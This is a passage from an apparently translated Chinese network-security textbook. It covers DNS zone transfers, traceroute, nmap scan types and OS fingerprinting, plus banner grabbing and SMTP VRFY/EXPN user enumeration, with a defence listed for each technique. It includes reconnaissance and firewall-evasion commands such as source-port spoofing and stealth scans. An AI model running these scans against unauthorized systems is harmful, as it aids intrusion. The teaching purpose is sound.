mail.somecompanyasaneexample.com has address 192.168.1.10
Using domain server:
Name: 10.0.0.1
Address: 10.0.0.1#53
firewall.somecompanyasaneexample.com is an alias for vpn.somecompanyasane
example.com
Using domain server:
Name: 10.0.0.1
Address: 10.0.0.1#53
vpn.somecompanyasaneexample.com has address 192.168.1.9
Using domain server:
Name: 10.0.0.1
Address: 10.0.0.1#53
payroll.somecompanyasaneexample.com has address 192.168.1.33
Using domain server:
Name: 10.0.0.1
Address: 10.0.0.1#53
```

从这个例子中可以明显看出，如果入侵者成功执行了区域传输，他或她就可以获取有关组织内主机角色及其 IP 地址的信息。

## 防止区域传输滥用

为了防范区域传输滥用，强烈建议采取以下措施：

- 不允许未授权的主机从您的 DNS 执行区域传输。
- 由于区域传输是在 TCP 端口 53 上执行的，请配置防火墙以阻止 TCP 端口 53 上的入站连接。
- 为内部网络主机安装一个单独的 DNS 服务器是个好主意。该 DNS 服务器不应可被外部访问。

## 路由追踪

借助上述查询，仅通过知道目标组织的名称就可以获取 IP 地址。由于 IP 数据包通过不同的路径到达目的地，了解源（你自己）和目标主机之间网关的信息将大有裨益。

### 执行路由追踪

可以使用名为 traceroute 的命令行工具来执行路由追踪：

```
[bash]$ traceroute 10.0.0.1
traceroute to 10.0.0.1 (10.0.0.1), 30 hops max, 38 byte packets
1 yourisp.yourgateway.net (192.168.10.10) 13.069ms 8.099ms 10.133 ms
2 192.168.9.1 (192.168.9.1) 8.675ms 9.481ms 7.214ms
3 10.1.1.1 (10.1.1.1) 9.292ms 9.446ms 12.368ms
4 nsl.somexampleserver.net (10.0.0.1) 9.736ms 9.623ms 9.647ms
```

traceroute 程序通过向目的端的高端口发送 UDP 数据包来工作，这些数据包的时间戳值（TTL，即生存时间）最初设置为 1，然后每个后续数据包递增 1。网关在沿路由转发之前会将 IP 数据包中的 TTL 字段减 1。如果 IP 数据包的 TTL 等于 0，则特定网关会向源端发回一个“ICMP 生存时间已耗尽”（ICMP Time to Live Exceeded）数据包。因此，traceroute 工具通过查看返回的“ICMP 生存时间已耗尽”数据包的来源，来确定通往目的地的沿途网关的 IP 地址。

traceroute 工具默认发送 UDP 数据包，但在使用 -I 选项运行时，可以使其使用 ICMP 数据包。

> 一些网关和防火墙被配置为丢弃传入的 UDP 和 ICMP 数据包，和/或丢弃发出的“ICMP 生存时间已耗尽”数据包。这会导致 traceroute 跳过此类网关和防火墙。

有时，防火墙被配置为允许源端口为 20（FTP-Data）或 53（DNS）的数据包。因此，可以使用 traceroute 中的 -p 选项来设置传出 UDP 数据包的源端口，以便试图利用此类防火墙规则。


## 防止传入的路由追踪请求

可以采取以下步骤来防止传入的路由追踪请求成功：

- 配置防火墙以丢弃传入的 UDP 和 ICMP 数据包。
- 配置防火墙以丢弃发出的“ICMP 生存时间已耗尽”数据包。
- 如果您必须允许用于 DNS 的传入 UDP 数据包，请配置防火墙仅允许来自特定 DNS 服务器 IP 地址的、源端口为 53（DNS）的传入 UDP 数据包。

### 总结

本章向您展示了潜在入侵者如何利用公开可用的信息来获取关于目标组织的敏感和关键信息，包括如何获取目标网络的管理员联系方式、域名、网络块、主机名和 MX 记录。在获取这些信息的任何一部分后，入侵者将更好地了解目标组织的网络架构和管理弱点。本章描述的技术所获取的信息对于您学习网络扫描和识别过程至关重要，这是黑客方法论的下一步。


## 第 2 章 扫描与识别

本章内容：
- Ping
- Ping 扫描
- TCP Ping
- 端口扫描
- 指纹识别
- 摘要

通过本章，你将学习如何扫描网络中的目标主机，探测它们提供服务的端口，并识别其操作系统的版本。一旦你了解了目标主机上存在哪些端口和操作系统，就可以进入下一章描述的枚举过程。

虽然有许多扫描工具可用，但 Nmap 是迄今为止最健壮、功能最丰富的扫描器。在大多数情况下，我们将使用 Nmap 作为下文示例中的工具。Nmap 工具是免费的，可以从 [http://www.insecure.org/nmap](http://www.insecure.org/nmap) 获取。

Nmapfe 软件包，即 Nmap 的图形用户界面（GUI）前端，也可以从该网址获取（见图 2-1）。



图 2-1。Nmapfe，Nmap 的图形用户界面前端

### Ping

确定主机是否存活的最快方法是对其进行 Ping 测试。用于此目的的 `ping` 命令会发送一个 ICMP 回显请求，促使目标主机响应一个 ICMP 应答数据包。请注意，主机可以配置为不响应 ICMP 回显请求。因此，即使主机不响应回显请求，它可能仍然处于在线状态。

#### 使用 ping 工具 Ping 主机

使用 `ping` 命令可以找到那些响应 ICMP 回显请求的存活主机：

```bash
[admin]$ ping 192.168.1.1
PING 192.168.1.1 (192.168.1.1) from 192.168.1.1 : 56 (84) bytes of data.
64 bytes from 192.168.1.1: icmp_seq=1 ttl=64 time=0.093 ms
64 bytes from 192.168.1.1: icmp_seq=2 ttl=64 time=0.078 ms
64 bytes from 192.168.1.1: icmp_seq=3 ttl=64 time=0.076 ms
64 bytes from 192.168.1.1: icmp_seq=4 ttl=64 time=0.062 ms
^C
--- 192.168.1.1 ping statistics ---
4 packets transmitted, 4 received, 0% loss, time 299ms
rtt min/avg/max/mdev = 0.062/0.077/0.093/0.012 ms
```

### Ping 扫描

Ping 扫描是对大量主机进行 Ping 测试的过程。在拥有大量目标 IP 地址的情况下，必须执行 Ping 扫描来确定哪些存活主机响应 ICMP 回显请求。

#### 使用 nmap 执行 Ping 扫描

使用 nmap 中的 `-sP` 选项可以执行 Ping 扫描：

```bash
[admin]$ nmap -sP 192.168.1.*

Starting nmap V. 3.00 ( www.insecure.org/nmap/ )
Host (192.168.1.1) appears to be up.
Host (192.168.1.100) appears to be up.
Host (192.168.1.150) appears to be up.

Nmap run completed -- 256 IP addresses (3 hosts up) scanned in 33 seconds
```

**阻止 ICMP**

配置防火墙以丢弃传入的 ICMP 回显请求和传出的 ICMP 回显应答。这将阻止你网络中的主机响应 ICMP 回显请求。

### TCP Ping

如果一个 TCP ACK 数据包被发送到存活的主机，它将回传一个 RST 数据包。此方法可用于扫描那些屏蔽 ICMP 回显请求的机器。

#### 使用 nmap 执行 TCP Ping

使用 `nmap` 的 `-PT` 选项可以执行 TCP Ping。默认情况下，`nmap` 向目标主机的 80 端口发送一个 ACK 数据包。使用以下语法可以指示 `nmap` 使用其他端口：

```
nmap -PT[port_number] host
```

例如：

```
nmap -PT6000 192.168.1.1
```

如果主机响应一个 RST 数据包，`nmap` 将认为该主机存活，并立即执行端口扫描。

```
[bash]# nmap -PT 192.168.1.1

Starting nmap V. 3.00 ( www.insecure.org/nmap/ )
Interesting ports on (192.168.1.1):
(The 1597 ports scanned but not shown below are in state: closed)
Port     State     Service
22/tcp   open      ssh
80/tcp   open      http
113/tcp  open      auth
6000/tcp open      X11

Nmap run completed -- 1 IP address (1 host up) scanned in 1 second
```

**防止 TCP Ping 扫描**

始终使用有状态防火墙来保护你的网络。确保配置防火墙丢弃所有不属于已建立 TCP 连接的 ACK 数据包。

### 端口扫描

*端口扫描* 是连接目标主机的 UDP 和 TCP 端口以确定哪些端口正在监听的过程。端口扫描可以通过许多不同的方式完成。以下是最常见且有用的端口扫描方法。

#### TCP Connect

这种扫描类型使用操作系统内核提供的 TCP 打开系统调用，连接到目标主机上指定的端口。这是通过 TCP 三次握手建立 TCP 连接的基本方法：



由于 TCP 连接扫描完成了三次握手，监听目标端口的应用程序将响应连接尝试。这将导致应用程序记录该连接尝试。因此，这种端口扫描方法不具备隐蔽性。

**使用 nmap 执行 TCP-Connect 端口扫描**

使用 nmap 中的 `-sT` 选项可以执行 TCP-Connect 扫描：

```bash
(bash)$ nmap -sT 10.0.0.1
Starting nmap V. 3.00 ( www.insecure.org/nmap/ )
Interesting ports on (10.0.0.1):
(The 1595 ports scanned but not shown below are in state: closed)
Port    State    Service
25/tcp  open     smtp
113/tcp open     auth
6000/tcp open    X11

Nmap run completed -- 1 IP address (1 host up) scanned in 0 seconds
```

TCP 和 UDP 端口号范围从 1 到 65535。默认情况下，nmap 扫描常见的已知端口。扫描所有 65,535 个端口耗时较长，但在使用 nmap 时可通过 `-p` 标志完成：

```
nmap -sT 192.168.1.1 -p 1-65535
```

#### FTP 反弹扫描

由于 FTP 协议的设计，当 FTP 客户端使用“主动”模式请求数据传输时，FTP 服务器必须发起一个回连到 FTP 客户端端口的连接。FTP 客户端发出 PORT 命令，将其 IP 地址和监听端口号作为参数。如果 FTP 客户端发出的 PORT 命令包含另一个主机的 IP 地址，那么 FTP 服务器将尝试连接到该主机。因此，FTP 协议的这一特性可用于进行代理端口扫描。

nmap 命令包含一个 `-b` 标志，用于执行“FTP 反弹”扫描：

```
nmap -b username:password@ftp.somecompanyasanexample.com:21
    -p 4000-8000 target.somecompanyasanexample.com
```

FTP 客户端在请求数据传输时可能使用被动模式，这将导致 FTP 客户端连接到 FTP 服务器上的某个端口以执行数据传输。然而，被动模式 FTP 自身也存在一些问题。被动模式 FTP 客户端可能会受到“连接窃取”漏洞的影响。详情请参见第 4 章。

#### TCP SYN/半开连接

这种扫描类型导致扫描器向目标主机发送 SYN 数据包。如果目标主机正在监听特定端口，它将响应 SYN+ACK。如果目标主机存活但未监听特定端口，则会收到一个 RST 数据包。由于这种扫描方法没有完成 TCP 三次握手，因此它具有隐蔽性，因为目标主机通常不会记录此类事件。

**SYN 扫描**

使用 nmap 中的 `-sS` 标志可以执行 SYN 扫描：

```bash
[bash] $ nmap -sS 192.168.1.150

Starting Nmap V. 3.00 ( www.insecure.org/nmap/ )
Interesting ports on (192.168.1.150) :
(The 1599 ports scanned but not shown below are in state: closed)
Port      State     Service
22/tcp    open      ssh
113/tcp   open      auth

Nmap run completed -- 1 IP address (1 host up) scanned in 2 seconds
```

#### 源端口扫描

由于 FTP 协议的设计，当 FTP 客户端使用主动模式请求数据传输时，FTP 服务器必须发起一个回连到 FTP 客户端端口的连接。为了便于实现这一点，许多防火墙被配置为允许所有源端口设置为 20 的传入 IP 数据包。此外，来自 DNS 服务器的 IP 数据包的源端口设置为 53，因此许多防火墙允许所有源端口为 53 的传入数据包。可以使用 `-g` 开关指示 nmap 将其数据包的源端口设置为常数值：

```
nmap -sS -g 20 192.168.1.1
```

#### FIN

在此方法中，向目标主机发送一个 FIN 数据包。如果目标主机存活但未监听特定端口，它将响应一个 RST 数据包。然而，如果目标主机正在监听特定端口，它不会响应。请注意，Microsoft Windows 主机在所有情况下都会发送 RST 数据包。这一点很有意义，因为它有助于将目标主机识别为 Microsoft Windows 主机。

> i FIN IP 数据包用于断开已建立的 TCP 连接。

**FIN 扫描**

使用 nmap 中的 `-sF` 标志可以执行 FIN 扫描：

```bash
[bash]$ nmap -sF 192.168.1.100
Starting nmap V. 3.00 ( www.insecure.org/nmap/ )
Interesting ports on (192.168.1.100):
(The 1594 ports scanned but not shown below are in state: closed)
Port      State  Service
21/tcp    open   ftp
22/tcp    open   ssh
25/tcp    open   smtp
53/tcp    open   domain
80/tcp    open   http
110/tcp   open   pop-3
113/tcp   open   auth

Nmap run completed -- 1 IP address (1 host up) scanned in 43 seconds
```


#### 反向标识

标识（Identification Protocol）服务器在端口 113 上监听连接。如果与运行标识服务器的某主机上正在监听的端口建立了 TCP 连接，标识服务器可能会收到针对与该连接关联的进程的特权级别的查询请求。

#### 反向标识扫描

在 `nmap` 中使用 `-I` 标志将执行 TCP 反向标识扫描：

```bash
$ nmap -I -sT -p 80 192.168.1.100
```

启动 `nmap` V. 3.00 ( www.insecure.org/nmap/ )
(192.168.1.100) 上的相关端口：

| 端口 | 状态 | 服务 | 拥有者 |
| :--- | :--- | :--- | :--- |
| 80/tcp | 开放 | http | 无用户 |

Nmap 运行完成 -- 扫描 1 个 IP 地址（1 台主机在线），耗时 1 秒

#### XMAS

这种扫描方法涉及发送一个设置了 FIN、URG 和 PUSH 标志的 TCP 数据包。如果目标主机正在监听特定端口，它会返回一个 RST 数据包。如果目标主机没有监听该端口，则不响应。

> FIN 数据包通常用于断开已建立的 TCP 连接。URG 数据包表示 IP 数据包中存在需要立即处理的信息，例如在 telnet 会话期间发送的 ^C。PUSH 数据包表示发送方请求接收方立即将所有缓冲数据传递给应用程序。

#### XMAS 扫描

在 `nmap` 中使用 `-sX` 标志将执行 XMAS 扫描：

```bash
$ nmap -sX 192.168.1.1
```

启动 `nmap` V. 3.00 ( www.insecure.org/nmap/ )
(192.168.1.1) 上的相关端口：
（以下未显示的 1597 个已扫描端口处于关闭状态）

| 端口 | 状态 | 服务 |
| :--- | :--- | :--- |
| 22/tcp | 开放 | ssh |
| 80/tcp | 开放 | http |
| 113/tcp | 开放 | auth |
| 6000/tcp | 开放 | X11 |

Nmap 运行完成 -- 扫描 1 个 IP 地址（1 台主机在线），耗时 6 秒

## NULL

这种扫描类型涉及向目标主机发送一个 TCP 数据包，其中 TCP 头部中的所有标志均被关闭。如果目标主机正在监听特定端口，它将不响应。否则，它将发送一个 RST 数据包。

## NULL 扫描

在 `nmap` 中使用 `-sN` 标志将执行 TCP NULL 扫描：

```bash
$ nmap -sN 192.168.1.100
```

启动 `nmap` V. 3.00 ( www.insecure.org/nmap/ )
(192.168.1.100) 上的相关端口：
（以下未显示的 1594 个已扫描端口处于关闭状态）

| 端口 | 状态 | 服务 |
| :--- | :--- | :--- |
| 21/tcp | 开放 | ftp |
| 22/tcp | 开放 | ssh |
| 25/tcp | 开放 | smtp |
| 53/tcp | 开放 | domain |
| 80/tcp | 开放 | http |
| 110/tcp | 开放 | pop-3 |
| 113/tcp | 开放 | auth |

Nmap 运行完成 -- 扫描 1 个 IP 地址（1 台主机在线），耗时 41 秒

## RPC

这种扫描类型用于向开放端口发送 NULL 命令，以确定它们是否为 RPC（远程过程调用）端口。一旦确定开放端口为 RPC 端口，就会查询并获取绑定到该端口的应用程序信息。

## RPC 扫描

在 `nmap` 中使用 `-sR` 选项将执行 RPC 扫描：

```bash
$ nmap -sR 10.0.0.10
```

启动 `nmap` V. 3.00 ( www.insecure.org/nmap/ )
(10.0.0.10) 上的相关端口：
（以下未显示的 1584 个已扫描端口处于关闭状态）

| 端口 | 状态 | 服务 (RPC) |
| :--- | :--- | :--- |
| 7/tcp | 开放 | echo |
| 21/tcp | 开放 | ftp |
| 22/tcp | 开放 | ssh |
| 37/tcp | 开放 | time |
| 53/tcp | 开放 | domain |
| 111/tcp | 开放 | sunrpc (rpcbind V2-4) |
| 113/tcp | 开放 | auth |
| 512/tcp | 开放 | exec |
| 513/tcp | 开放 | login |
| 514/tcp | 开放 | shell |
| 515/tcp | 开放 | printer |
| 587/tcp | 开放 | submission |
| 2049/tcp | 开放 | nfs (nfs V2-3) |
| 4045/tcp | 开放 | lockd (nfs V2-3) |
| 7100/tcp | 开放 | font-service |
| 32771/tcp | 开放 | sometimes-rpc5 (ypserv V1-2) |
| 32772/tcp | 开放 | sometimes-rpc7 |

Nmap 运行完成 -- 扫描 1 个 IP 地址（1 台主机在线），耗时 40 秒

## IP 协议

这种扫描类型的目的是确定目标主机支持哪些 IP 协议。它发送指向特定协议的原始 IP 数据包，如果收到 ICMP 协议不可达消息，则该特定协议很可能在目标主机上不受支持。

### IP 协议扫描

在 `nmap` 中使用 `-sO` 标志将执行 IP 协议扫描：

```bash
$ nmap -sO 192.168.1.1
```

启动 `nmap` V. 3.00 ( www.insecure.org/nmap/ )
(192.168.1.1) 上的相关协议：
（以下未显示的 251 个已扫描协议处于关闭状态）

| 协议 | 状态 | 名称 |
| :--- | :--- | :--- |
| 1 | 开放 | icmp |
| 2 | 开放 | igmp |
| 6 | 开放 | tcp |
| 17 | 开放 | udp |

## ACK

这种扫描类型主要用于确定防火墙规则集。向目标主机发送 ACK 数据包。如果目标主机不响应或返回 ICMP 不可达数据包，则端口很可能被防火墙过滤。如果目标主机返回 RST 数据包，则端口未被防火墙过滤。

### ACK 扫描

可以通过使用带有 `-sA` 标志的 `nmap` 来执行 ACK 扫描：

```bash
nmap -sA target_address
```

## 窗口

这种扫描类型虽然类似于 ACK 扫描，但由于某些系统在报告 TCP 窗口大小时存在异常，有时有助于检测某些系统上的开放、已过滤和未过滤端口。

### 窗口扫描

潜在入侵者可以使用带有 `-sW` 标志的 `nmap` 来执行窗口扫描：

```bash
nmap -sW target_address
```

## UDP

为了确定某主机是否正在监听特定的 UDP 端口，会向该端口发送一个 UDP 数据包。如果目标主机没有监听该特定端口，则会收到 ICMP 端口不可达数据包。然而，如果目标主机正在监听该特定端口，则不会收到此类数据包。由于 UDP 不是面向连接的协议，因此 UDP 扫描不可靠。

### UDP 端口扫描

在 `nmap` 中使用 `-sU` 选项将执行 UDP 扫描：

```bash
$ nmap -sU 192.168.1.100

Starting Nmap 7.54BETA31 ( https://nmap.org/ )
Interesting ports on (192.168.1.100):
(The 1454 ports scanned but not shown below are in state: closed)
PORT      STATE         SERVICE
53/udp    open          domain
```

### 防御端口扫描

你可以使用以下方法来反击针对你网络的扫描：

- 配置防火墙以丢弃发往已关闭端口的数据包。这将减慢针对你网络的扫描速度，因为这会导致端口扫描应用程序在超时值超过后重新发送 SYN 数据包。只有在多次超时后，端口扫描应用程序才会假定端口已过滤，并继续扫描下一组端口。
- 大多数防火墙和入侵检测系统（IDSS）具有检测端口扫描的能力。利用此功能，并定期检查你的日志。
- 配置防火墙不要信任源端口值。状态防火墙具有功能，仅允许来自已知建立连接的 FTP 服务器的源端口 20 的数据包。无论如何，不建议使用 FTP 等明文协议。存在更好的替代方案（如 SSH），应使用这些替代方案。此外，除非数据包发往需要执行区域传输的你的 DNS 服务器，否则不要允许源端口设置为 53 的传入 TCP 数据包。通过授权为你主机提供服务的 DNS 服务器的 IP 地址来限制 DNS 流量。
- 大多数 FTP 服务器不允许客户端发出带有除客户端外其他主机 IP 地址的 PORT 命令。这将防止 FTP 弹射扫描。有关详细信息，请查阅你的 FTP 服务器文档和配置。
- 配置防火墙以丢弃或重置针对标识端口（113）的连接尝试。
- 使用状态防火墙。这将阻止上述文本中提到的大多数扫描。

## 指纹识别

尽管许多操作系统设计者尽最大努力遵循相关 RFC，但操作系统内核作者有时会以不同的方式解释细节。Xprobe2 和 Nmap 等工具会探测这些差异，以识别目标操作系统的指纹。

### 使用 Xprobe2 对操作系统进行指纹识别

Xprobe2 使用 ICMP 数据包执行指纹识别。结果根据对目标操作系统最佳猜想的评分进行排序。该工具能够区分通往目的地的路径上的过滤设备，可在此处获取：http://www.sys-security.com/html/tools/tools.html。

以下是使用 Xprobe2 的示例：

```bash
# xprobe2 -v target.somecompanyasanexample.com

Xprobe2 v.0.1 Copyright (c) 2002 Fygrave@tigerteam.net,
ofir@sys-security.com

[+] Target is target.somecompanyasanexample.com
[+] Loading modules.
[+] Following modules are loaded:
    [x]ICMP echo (ping)
    [x]TTL distance
    [x]ICMP echo
```


# ICMP 时间戳

- [x] ICMP 时间戳
- [x] ICMP 地址
- [x] ICMP 信息请求
- [x] ICMP 端口不可达

- [+] 已注册 7 个模块
- [+] 正在初始化扫描引擎
- [+] 正在运行扫描引擎
- [+] 主机：192.168.1.1 在线（猜测概率：100%）
- [+] 目标：192.168.1.1 处于活跃状态：
- [+] 主要猜测：
- [+] 主机 192.168.1.1 运行的操作系统：“Linux Kernel 2.4.5 及以上”（猜测概率：60%）
- [+] 其他猜测：
- [+] 主机 192.168.1.1 运行的操作系统：“Linux Kernel 2.4.0 - 2.4.4”（猜测概率：60%）
- [+] 主机 192.168.1.1 运行的操作系统：“Linux Kernel 2.2.x”（猜测概率：60%）
- [+] 主机 192.168.1.1 运行的操作系统：“Microsoft Windows NT 4 Service Pack 4 及以上”（猜测概率：60%）
- [+] 主机 192.168.1.1 运行的操作系统：“NetBSD 1.5.2”（猜测概率：50%）
- [+] 主机 192.168.1.1 运行的操作系统：“Microsoft Windows NT 4 Service Pack 3 及以下”（猜测概率：50%）
- [+] 主机 192.168.1.1 运行的操作系统：“Microsoft Windows ME”（猜测概率：50%）
- [+] 主机 192.168.1.1 运行的操作系统：“Microsoft Windows 2000/2000SP1/2000SP2”（猜测概率：50%）
- [+] 主机 192.168.1.1 运行的操作系统：“Microsoft Windows XP Professional”（猜测概率：50%）
- [+] 主机 192.168.1.1 运行的操作系统：“FreeBSD 4.5”（猜测概率：45%）
- [+] 主机 192.168.1.1 运行的操作系统：“OS X 10.1.5”（猜测概率：40%）
- [+] 主机 192.168.1.1 运行的操作系统：“Microsoft Windows 98/98SE”（猜测概率：40%）
- [+] 主机 192.168.1.1 运行的操作系统：“Digital UNIX 5.6”（猜测概率：35%）
- [+] 主机 192.168.1.1 运行的操作系统：“Sun Solaris 5 (SunOS 2.5)”（猜测概率：35%）
- [+] 主机 192.168.1.1 运行的操作系统：“Sun Solaris 6 (SunOS 2.6)”（猜测概率：35%）
- [+] 主机 192.168.1.1 运行的操作系统：“Sun Solaris 7 (SunOS 2.7)”（猜测概率：35%）
- [+] 主机 192.168.1.1 运行的操作系统：“Sun Solaris 8 (SunOS 2.8)”（猜测概率：35%）
- [+] 主机 192.168.1.1 运行的操作系统：“FreeBSD 3.4”（猜测概率：25%）
- [+] 正在清理扫描引擎
- [+] 模块已反初始化
- [+] 执行完成。

#### 使用 nmap 进行操作系统指纹识别

nmap 程序也可以被入侵者使用，利用 `-O` 参数执行操作系统指纹识别：

```bash
#### nmap -O 192.168.1.1
```

正在启动 nmap V. 3.00 ( www.insecure.org/nmap/ )
(192.168.1.1) 上的有趣端口：
（已扫描但未在下面显示的 1597 个端口处于关闭状态）

| 端口       | 状态 | 服务  |
|------------|------|-------|
| 22/tcp     | open | ssh   |
| 80/tcp     | open | http  |
| 113/tcp    | open | auth  |
| 6000/tcp   | open | X11   |

远程操作系统猜测：Linux Kernel 2.4.0 - 2.5.20
正常运行时间 6.584 天（自 2002 年 10 月 27 日周日 10:23:37 起）

Nmap 运行完成 -- 在 8 秒内扫描了 1 个 IP 地址（1 台主机在线）

## 摘要

可以通过 Ping 主机来快速判断其是否在线。此外，可以使用各种端口扫描技术来确定在线主机上哪些端口是开放的。随后，可以使用操作系统指纹识别工具来识别目标主机上的操作系统版本。一旦入侵者遵循了这样的方法论，他或她就可以继续下一步，即下一章中描述的 Username 和服务枚举过程。

# 第 3 章

# 枚举

## 本章内容：

- 枚举远程服务
- 自动横幅抓取
- 摘要

在对目标主机进行端口扫描后，入侵者将确切知道哪些主机在线以及它们开放了哪些端口。掌握了这些信息后，合乎逻辑的下一步是枚举诸如用户名、文件共享以及特定端口上正在监听的服务的操作系统和应用程序版本号等信息。只有在获取了此类信息之后，攻击者才能继续利用下一章中讨论的特定漏洞。

许多远程服务守护程序在建立到其监听端口的连接时会显示横幅消息。横幅消息可以提供有关服务的信息，例如它们的标识和版本信息。从远程服务获取横幅的过程被称为 *banner grabbing*（横幅抓取）。由于大多数守护程序允许更改其横幅，您应利用这一功能。

> 虽然更改服务器横幅以混淆潜在入侵者是一个好主意，但请记住，这不会阻止更 sophisticated（精明的）攻击者。

## 枚举远程服务

以下是已知易受枚举攻击的服务列表。它们按其通常监听的端口号进行排序（请参阅 Unix 或 Linux 主机上的 /etc/services 文件以获取完整列表）。

### 使用 Amap 识别远程服务

此处列出的任何服务都可以配置为监听非标准端口。某些服务使用非 ASCII 字符进行通信，难以手动识别。Amap 等工具（可在 <http://www.thehackerschoice.com/releases.php> 获取）可用于确定此类服务：

```bash
$ amap -sT intranet.somecompanyasexample.com 9934
Total amount of tasks to perform: 15
Amap v1.2.1b started at Sun Mar 9 09:30:22 2003, stand back and keep the children away.
Protocol on IP 192.168.1.3 port 9934 tcp matches ssl
Protocol on IP 192.168.1.3 port 9934 tcp matches http
Unidentified ports: None.
Amap v1.2.1b ended at Sun Mar 9 09:30:59 2003
```

在此示例中，Amap 成功发现主机 *intranet.somecompanyasexample.com* 在 9934 端口上运行 HTTPS。这是有用的信息，因为 HTTPS 的标准保留端口是 443。

### 阻止和停止不必要的服务

某些服务被配置为接受来自任何源 IP 地址的连接。例如，电子商务组织的 HTTP 服务器必须接受来自任何 IP 地址的连接，以便允许所有位置的远程用户查看该组织的网站。在这种情况下，组织无法隐藏其正在运行 HTTP 服务器的事实。

然而，根据组织的需求和网络架构，某些服务可能只预期接受来自授权 IP 地址的连接。在这种情况下，应设置防火墙规则，以确保阻止来自未授权 IP 地址的连接。此外，必须关闭或通过防火墙规则阻止不必要的服务。这将防止对不应被未授权远程主机访问的服务进行利用和识别。

## FTP（文件传输协议）：21（TCP）

顾名思义，FTP 是一种在主机之间传输文件的协议。

### 获取 FTP 服务器横幅

FTP 服务器在连接时通常打印版本信息。可以使用 FTP 客户端连接到 FTP 服务器以获取其横幅。例如：

```bash
$ ftp 192.168.1.1
Connected to 192.168.1.1 (192.168.1.1).
220 192.168.1.1 FTP server (Version wu-2.6.2+Sun) ready.
Name (192.168.1.1:username):
```

也可以使用 telnet 客户端直接连接到 FTP 端口以获取横幅信息：

```bash
$ telnet 192.168.1.1 21
Trying 192.168.1.1...
Connected to 192.168.1.1.
Escape character is ‘^]’.
220 192.168.1.1 FTP server (Version wu-2.6.2+Sun) ready.
```


## 更改 FTP 服务器横幅

如果您正在运行 WU-FTPD 服务器，请编辑 /etc/ftpaccess 文件并使用 greeting 指令更改服务器横幅。例如：

```
greeting text No banner information available. Sorry.
```

## SSH（安全外壳）：22（TCP）

SSH 是一种用于交换数据的安全协议。它可以用于登录远程机器、远程执行命令以及传输文件。由于 SSH 内的通信是加密的，它是 telnet、rlogin 和 FTP 等远程登录解决方案的有力替代。

### 获取 SSH 服务器横幅

尽管 SSH 通信是加密的，但 SSH 守护程序在使用 telnet 客户端连接时会以明文打印版本信息：

```bash
$ telnet 192.168.1.1 22
Trying 192.168.1.1...
Connected to 192.168.1.1.
Escape character is '^]'.
SSH-1.99-OpenSSH_3.4p1
```

### 更改 SSH 版本信息

前一个示例中横幅显示的版本信息 “OpenSSH_3.4p1” 可以通过获取并编辑 OpenSSH 源代码来更改。使用 grep 命令在获取的 OpenSSH 源代码中查找版本字符串。一旦更改了该字符串，请重新编译并重新安装 OpenSSH。

> 前一个示例中，横幅还显示协议版本信息 “SSH-1.99”。请勿更改或删除此信息，因为 SSH 客户端使用此字符串来识别协议和服务器信息。更改此值可能会导致某些 SSH 客户端停止正常工作。

## Telnet：23（TCP）

Telnet 是一种用于登录远程机器的明文协议。


## 获取 Telnet 服务器横幅

通过简单地 Telnet 到服务器即可获取 Telnet 守护进程的横幅信息：

```bash
$ telnet 192.168.1.1
Trying 192.168.1.1...
Connected to 192.168.1.1.
Escape character is '^]'.

SunOS 5.8

login:
```

## 更改 Telnet 服务器横幅

为了更改 Telnet 横幅，你需要编写一个包装器。假设你正在使用 inetd 运行 telnetd，请编辑你的 /etc/inetd.conf 文件，并将

```
telnet stream tcp nowait root /usr/sbin/in.telnetd in.telnetd
```

更改为

```
telnet stream tcp nowait root /usr/sbin/in.telnetdwrapper in.telnetd
```

现在，你必须创建文件 /usr/sbin/in.telnetdwrapper，内容如下：

```bash
#!/bin/sh
/bin/echo "My banner\r"
exec /usr/sbin/in.telnetd
```

> 如果你正在使用 xinetd，请适当地编辑位于 xinetd.d 目录中的 telnet 文件。

为了使更改生效，你必须重启 inetd 或 xinetd。

请注意，某些版本的 telnetd 允许通过编辑 /etc/issue.net 文件来更改横幅信息。

### SMTP（简单邮件传输协议）：25（TCP）

SMTP 是互联网上用于传输电子邮件的协议。


### 获取 SMTP 服务器横幅

可以通过 Telnet 到运行 SMTP 的主机的 25 端口来获取 SMTP 守护进程的横幅：

```bash
$ telnet 192.168.1.1 25
Trying 192.168.1.1...
Connected to 192.168.1.1.
Escape character is '^]'.
220 192.168.1.1 ESMTP Sendmail 8.10.2+Sun/8.10.2; Tue, 14 Jan 2003 09:28:02-0500 (EST)
```

### 更改 SMTP 服务器横幅

如果你正在使用 Sendmail，你可以通过编辑 /etc/sendmail.cf 文件并更改 SmtpGreetingMessage 字段的值来更改 SMTP 横幅。

### 使用 EXPN 和 VRFY 枚举用户

EXPN 和 VRFY 是 SMTP 支持的两个命令，可用于用户名枚举。EXPN 和 VRFY 可用于确认特定用户名的存在。EXPN 还可用于枚举特定组邮件别名中所有用户的姓名和电子邮件地址。

以下是 VRFY 的一个示例：

```bash
$ telnet mail.somecompanyasanexample.com 25
Trying 10.0.0.11...
Connected to mail.somecompanyasanexample.com.
Escape character is '^]'.
220 mail.somecompanyasanexample.com ESMTP Sendmail 8.11.6/8.11.6; Wed, 15 Jan 2003 22:04:06 -0500 (EST)
VRFY smith
250 2.1.5 <smith@sales.somecompanyasanexample.com>
```

以下是使用 EXPN 的示例：

```bash
$ telnet mail.somecompanyasanexample.com 25
Trying 10.0.0.11...
Connected to mail.somecompanyasanexample.com.
Escape character is '^]'.
220 mail.somecompanyasanexample.com ESMTP Sendmail 8.11.6/8.11.6; Wed, 15 Jan 2003 22:10:11 -0500 (EST)
EXPN marketing-team
250-2.1.5 <bob@marketing.somecompanyasanexample.com>
250-2.1.5 <alan@marketing.somecompanyasanexample.com>
250-2.1.5 <joe@marketing.somecompanyasanexample.com>
250-2.1.5 <dillip@marketing.somecompanyasanexample.com>
250-2.1.5 <john@legal.somecompanyasanexample.com>
250-2.1.5 <kavita@sales.somecompanyasanexample.com>
```



### 关闭 EXPN 和 VRFY

配置你的 SMTP 服务器以不支持 EXPN 和 VRFY。要在 Sendmail 中执行此操作，请编辑 /etc/sendmail.cf 并将 `PrivacyOptions` 设置为 `authwarnings, noexpn, novrfy`。

## DNS（域名系统）：53（TCP/UDP）

